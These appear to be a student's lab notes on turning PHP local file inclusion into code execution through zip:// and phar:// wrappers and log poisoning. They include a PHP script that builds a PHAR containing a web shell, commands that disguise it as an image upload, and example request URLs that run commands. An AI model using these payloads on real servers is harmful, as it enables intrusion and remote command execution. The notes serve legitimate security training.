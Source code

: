 If `zip://` is available, including `zip://path/to/shell.jpg#shell.php` will expose the PHP inside the zip — a useful fallback on systems where direct file inclusion techniques are blocked.

Sometimes this won’t work though if the server user content-based filters on the file uploads, this technique has a higher chance of working if the upload of zip files is enabled along with the zip wrapper of course

Once we upload the `shell.jpg` archive, we can include it with the `zip` wrapper as (`zip://shell.jpg`), and then refer to any files within it with `#shell.php` (URL encoded). Finally, we can execute commands as we always do with `&cmd=id`, as follows:

http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id

## Phar Upload

AI said : ( Phar wrappers) 

Think of a **PHAR** like a PHP-specific zip file: it bundles many files together into one file (like `package.phar`).

The **`phar://` wrapper** lets PHP open a file *inside* that bundle directly — without unzipping it first — just like opening a file inside a .zip.

## This is the crafting part

Finally, we can use the `phar://` wrapper to achieve a similar result. To do so, we will first write the following PHP script into a `shell.php` file:

Code: php

```php
<?php$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();

```

This script can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which we can interact with. We can compile it into a `phar` file and rename it to `shell.jpg` as follows:

`CSmarwen@htb[/htb]**$** php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg`

Now, we should have a phar file called `shell.jpg`. Once we upload it to the web application, we can simply call it with `phar://` and provide its URL path, and then specify the phar sub-file with `/shell.txt` (URL encoded) to get the output of the command we specify with (`&cmd=id`), as follows:

http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id

# Log Poisoning

AI said : 
Short answer — why logs matter: logs are just files the server writes. If you can make the application **write attacker-controlled text** into a log file, and the app later **includes** that log file (or can be forced to), the included text can be interpreted as code. So logs become an *injection storage* that transforms a read-only LFI into code execution.
If the attacker can get a hold of the logs in the backend server, he can write malicious code into them and then include the log file to get executed.
